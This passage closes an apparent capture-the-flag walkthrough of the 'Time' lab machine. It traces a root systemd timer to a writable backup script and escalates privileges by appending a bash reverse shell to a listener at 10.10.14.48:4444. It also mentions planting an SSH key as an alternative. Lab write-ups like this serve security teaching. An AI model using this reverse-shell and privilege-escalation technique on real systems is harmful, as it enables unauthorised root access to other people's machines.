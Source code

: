 Looking into the `timer_backup.service`, it showed that it relied on the `web_backup.service`:

```text
pericles@time:/home/pericles$ cat /etc/systemd/system/timer_backup.service  
[Unit]
Description=Calls website backup
Wants=timer_backup.timer
WantedBy=multi-user.target

[Service]
ExecStart=/usr/bin/systemctl restart web_backup.service
```

The `web_backup.service` itself simply ran the following script:

```text
pericles@time:/home/pericles$ cat /etc/systemd/system/web_backup.service  
[Unit]
Description=Creates backups of the website

[Service]
ExecStart=/bin/bash /usr/bin/timer_backup.sh
```

### Exploiting timer_backup.sh

Since I knew that I was able to exploit the file and that it would transfer the contents of `/var/www/html` into the `/root` directory, I started looking into methods to exploit this. The simplest method that I could think of was simply overwriting the file and calling a bash reverse shell which I did using the following command:

```bat
echo "bash -i >& /dev/tcp/10.10.14.48/4444 0>&1"  >> /usr/bin/timer_backup.sh
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Time/img4.png"  style="width: 80%" />
</p>

Another method would have been to insert my SSH key into the root directory, however I found the above method to be a bit simpler. That's the box! I hope that the walkthrough helped someone. If you found it interesting at all or if you think it was missing some crucial information, please reach out to me so that I can continue improving as I create more posts.